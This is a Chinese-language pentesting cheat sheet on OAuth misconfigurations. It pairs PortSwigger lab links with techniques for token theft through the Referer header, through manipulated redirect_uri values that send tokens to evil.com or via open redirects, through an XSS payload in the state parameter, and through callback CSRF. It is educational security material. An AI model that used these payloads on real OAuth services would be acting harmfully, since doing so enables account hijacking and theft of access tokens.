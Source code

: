 # OAuth配置错误

## 摘要

- [实验室](#labs)
- [通过引用窃取OAuth令牌](#stealing-oauth-token-via-referer)
- [通过redirect_uri获取OAuth令牌](#grabbing-oauth-token-via-redirect---uri)
- [通过redirect_uri执行XSS](#executing-xss-via-redirect---uri)
- [OAuth私钥泄露](#oauth-private-key-disclosure)
- [授权码规则违规](#authorization-code-rule-violation)
- [跨站请求伪造](#cross-site-request-forgery)
- [参考资料](#references)


## 实验室

* [PortSwigger - 通过OAuth隐式流绕过身份验证](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
* [PortSwigger - 强制OAuth个人资料链接](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
* [PortSwigger - 通过redirect_uri劫持OAuth账户](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
* [PortSwigger - 通过代理页面窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
* [PortSwigger - 通过开放重定向窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)


## 通过引用窃取OAuth令牌

来自[@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)的推文。

> 你有HTML注入，但是无法得到XSS吗？站点上有OAuth实现吗？如果有，设置一个指向你自己服务器的img标签，看看是否在登录后有办法（重定向等）让受害者到达那里，以通过引用窃取OAuth令牌。


## 通过redirect_uri获取OAuth令牌

重定向到受控域以获取访问令牌

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

重定向到一个接受的Open URL以获取访问令牌

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth实现永远不应该白名单整个域，只应白名单少数URL，以便“redirect_uri”不能指向开放重定向。

有时你需要将范围更改为无效值以绕过对redirect_uri的过滤：

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```


## 通过redirect_uri执行XSS

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```


## OAuth私钥泄露

一些Android/iOS应用程序可以被反编译，OAuth私钥可以被访问。


## 授权码规则违规

> 客户端不得使用授权码超过一次。  
> 如果授权码被使用超过一次，授权服务器必须拒绝该请求  
> 并应在可能的情况下撤销基于该授权码之前发出的所有令牌。


## 跨站请求伪造

不检查OAuth回调中有效CSRF令牌的应用程序容易受到攻击。这可以通过初始化OAuth流程并拦截回调（`https://example.com/callback?code=AUTHORIZATION_CODE`）来利用。这个URL可以用于CSRF攻击。

> 客户端必须为其重定向URI实施CSRF保护。这通常是通过要求发送到重定向URI端点的任何请求都包括一个将请求绑定到用户代理的已验证状态的值来实现的。客户端在向授权服务器发起授权请求时，应使用“state”请求参数将此值传递给授权服务器。


## 参考资料

* [所有Paypal OAuth令牌都属于我 - 本地主机获胜 - 进入对称性](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
* [OAuth 2 - 我如何再次黑进Facebook（..并且本可以窃取有效的访问令牌）- 进入对称性](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
* [我如何再次黑进Github - Egor Homakov](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
* [微软如何把你的数据交给Facebook…以及所有人 - Andris Atteka](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)

- [绕过Periscope管理面板上的Google身份验证](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/) 作者Jack Whitton